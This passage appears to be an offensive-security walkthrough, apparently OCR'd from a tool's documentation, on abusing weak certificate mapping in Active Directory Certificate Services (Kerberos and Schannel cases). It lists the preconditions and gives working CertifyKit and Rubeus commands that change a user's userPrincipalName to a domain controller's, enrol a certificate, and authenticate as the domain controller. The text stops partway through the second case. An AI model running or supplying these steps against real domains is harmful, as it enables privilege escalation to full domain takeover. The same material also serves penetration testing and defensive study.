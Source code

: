 Assume:

- `StrongCertificateBindingEnforcement` set to 0 (default is 1)

User Account scenario

- Write privilege over a user account

Machine account scenario

- Write privilege over a machine account
- VulnTemplate set attribute `msPKI-Certificate-Name-Flag`to value `SUBJECT_ALT_REQUIRE_UPN`
- Machine account have enroll privilege on VulnTemplate
- VulnTemplate contain suitable `EKU` 

Example of user account scenario

Add "Shadow Credential" to account User02 

Change `userPrincipalName` of User02 to DNS hostname of Domain Controller (or Domain Admin account: administrator)

```
CertifyKit.exe account /user:user02 /upn:corpdc01$@corp.local
```

Authenticate as User02 and inject TGT

Enroll a new certificate for template `user`

```
CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:user /install
```

Restore `userPrincipalName` of User02 to original value

Authenticate as Domain Controller using Kerberos

```
Rubeus.exe /user:corpdc01 /certificate:4E4C47F105D71D353CC45BF3F33B83B2721B0416
```

**Case 2 (Schannel Certificate Mapping)**

Assume:

- `CertificateMappingMethods` contains UPN bit flag (0x4) (Default value 0x18 (0x8 | 0x10), old value 0x1F.)
- Write privilege over User02

Additional requirement to compromise user account:

- there is no userPrincipalName set or the userPrincipalName doesn’t match the sAMAccountName of that account

Add "Shadow Credential" to account User02 

Change `userPrincipalName` of user02 to DNS hostname of Domain Controller (or Domain Admin account: administrator@corp.local)

Authenticate as User02 and inject TGT

Enroll a new certificate for template `user`
